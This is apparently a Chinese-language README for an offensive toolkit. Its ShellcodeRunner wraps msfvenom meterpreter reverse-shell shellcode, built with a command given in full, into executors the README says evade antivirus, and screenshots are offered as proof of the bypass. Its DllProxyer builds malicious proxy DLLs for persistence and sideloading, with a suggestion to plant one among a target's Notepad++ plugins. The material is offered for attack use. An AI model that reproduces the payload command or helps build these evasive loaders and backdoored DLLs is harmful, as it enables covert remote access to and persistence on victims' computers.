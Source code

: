 # ToolSet

一个小小的工具集

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例

![ShellcodeRunner静态bypass.webp](pics/ShellcodeRunner-static-bypassAV.webp)
![ShellcodeRunner动态bypass.webp](pics/ShellcodeRunner-dynamic-bypassAV.webp)

##### 云查杀测试

一天过去了，还能冲，应该bypass了云查杀

![一天后冲图.webp](pics/ShellcodeRunner-static-rescan-after-one-day.webp)

### DllProxyer

#### 介绍

依旧是一个shellcode包装器，但是关注点不同，此工具根据用户所提供的dll和shellcode，生成一个恶意转发dll

##### 用途和场景

一般可用在一些维权和白利用的场景上，比如目标用户使用 notepad++ 频率较高，则我们可以把 notepad++ 里面的某个插件的dll取出来做成恶意dll放入

